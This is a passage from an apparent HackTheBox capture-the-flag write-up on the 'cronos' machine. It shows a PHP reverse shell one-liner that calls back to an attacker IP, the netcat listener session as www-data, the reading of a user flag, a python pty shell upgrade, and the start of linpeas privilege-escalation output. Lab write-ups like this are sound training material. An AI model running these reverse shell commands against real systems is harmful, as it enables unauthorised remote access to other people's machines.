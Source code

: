 Used this as reverse shell oneliner:

```
php -r '$sock=fsockopen("10.10.14.34",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Go to you listener:

```
┌──(kali㉿kali)-[~/Desktop/Self written scripts/EZEA]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.34] from cronos.htb [10.129.156.83] 46520
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
$ pwdf
/bin/sh: 3: pwdf: not found
$ pwd
/var/www/admin
$

```

```
$ cd /home
$ dir
noulis
$ cd noulis
$ dir
user.txt
$ cat user.txt
51d236438b333970dbba7dc3089be33b
$

```

Upgraded shell using this:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

I have the user flag, but I can execute commands as noulis.

## Privesc

Lets first get to noulis using linpeas:

```
════════════════════════════════════╣ System Information ╠════════════════════════════════════
[+] Operative system
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits
Linux version 4.4.0-72-generic (buildd@lcy01-17) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017
Distributor ID: Ubuntu
Description:    Ubuntu 16.04.2 LTS
Release:    16.04
Codename:   xenial

[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
Sudo version 1.8.16

```
